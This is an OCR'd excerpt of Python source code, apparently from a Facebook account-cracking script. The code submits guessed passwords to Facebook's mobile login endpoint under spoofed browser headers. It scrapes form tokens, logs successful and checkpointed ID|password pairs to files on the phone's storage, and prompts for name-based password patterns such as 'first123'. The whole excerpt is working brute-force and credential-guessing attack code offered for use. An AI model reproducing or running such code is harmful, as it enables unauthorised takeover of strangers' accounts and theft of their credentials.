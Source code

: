                 getlog = session.get(f'https://mbasic.facebook.com/login/device-based/password/?uid={sid}&flow=login_no_pin&refsrc=deprecated&_rdr')
                idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":sid,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":ps,}
                session.headers = {}
                session.headers.update({'Host': 'mbasic.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform': 'Android', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': sua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-PK,en-GB;q=0.9,en-US;q=0.8,en;q=0.7'})
                complete = session.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False)
                if 'c_user' in session.cookies.get_dict():
                    print(f"\r{R} [SSB-OK] {sid} | {ps} {S}")
                    oks.append(sid)
                    open('/sdcard/SSB_OK.txt','a').write(sid+'|'+ps+'\n')
                    break
                elif 'checkpoint' in session.cookies.get_dict():
                    #print(f"\r{A} [SSB-CP] {sid} | {ps} {S}")
                    cps.append(sid)
                    open('/sdcard/SSB_CP.txt','a').write(sid+'|'+ps+'\n')
                    break
                else:
                    continue
                #time.sleep(31)
            
            loop+=1
        except requests.exceptions.ConnectionError:
             self.methodD(sid, name, ps)
            
    def pasw(self):       
            pw = []
            clear()
            print('Put limit between 1 to 30')
            sl = int(input('How many password do you want to add?: '))
            os.system("clear")
            print(logo)
            print(f'{S} [Example: first123,last1122,firstlast,last,ETC]')
            print('')
            if sl =='':
                print('\n Put limit between 1 to 30')
            elif sl > 20:
                print('\nPassword limit Should Not Be Greater Than 30')
            else:
                for sr in range(sl):
                    pw.append(input(f'Password {sr+1}: '))
            os.system("clear")
            print(logo)
            